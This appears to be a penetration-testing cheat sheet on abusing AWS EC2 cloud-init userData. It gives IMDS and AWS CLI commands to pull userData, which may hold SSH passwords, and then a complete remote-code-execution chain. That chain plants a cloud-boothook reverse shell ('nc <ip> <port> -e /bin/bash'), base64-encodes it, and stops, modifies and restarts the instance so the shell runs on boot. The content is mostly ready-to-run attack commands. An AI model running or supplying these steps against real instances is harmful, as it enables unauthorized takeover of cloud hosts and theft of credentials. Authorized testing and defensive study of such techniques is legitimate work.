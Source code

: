 # cloud-init Exploits

## UserData section exploits

### Enumeration

#### On current EC2 instance

Read the following file. Requires sudo or root privileges

```
sudo cat /var/lib/cloud/instance/scripts/part-001
```

Query IMDS

```
IMDS_TOKEN=$(curl -s -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
ec2_instance_id=$( curl -H "X-aws-ec2-metadata-token: $IMDS_TOKEN" -s http://169.254.169.254/latest/meta-data/instance-id )
ec2_region=$(curl -s -H "X-aws-ec2-metadata-token: $IMDS_TOKEN" http://169.254.169.254/latest/meta-data/placement/region)
aws ec2 describe-instance-attribute --attribute userData --instance-id $ec2_instance_id--region $ec2_region --query UserData --output text  | base64 -d
```

#### Cloudshell

```
aws ec2 describe-instance-attribute --attribute userData --instance-id <instance id> --region <region> --query UserData --output text
```

### Sensitive data

SSH credentials

```
ssh_pwauth: True #ssh password auth enabled
chpasswd:
  list: |
    <user>:<pass>
```

### Remote Code Execution&#x20;

Create a reverse shell as following

```
#cloud-boothook
#!/bin/bash -x
yum install -y nc && nc <ip> <port> -e /bin/bash
```

Encode the file

```
base64 reverse-shell.txt > reverse-shell.enc
```

Stop the instance and modify userData file associated with the instance

```
aws ec2 stop-instances --profile <profile> --instance-ids <instance id>
aws ec2 modify-instance-attribute --profile ec2-capstone --instance-id <ec2 instance id> --attribute userData --value file://reverse-shell.enc
```

Restart the instance to execute the payload. It might take a couple of minutes for the instance to reboot.

```
aws ec2 start-instances --profile <profile> --instance-ids <instance id>
```
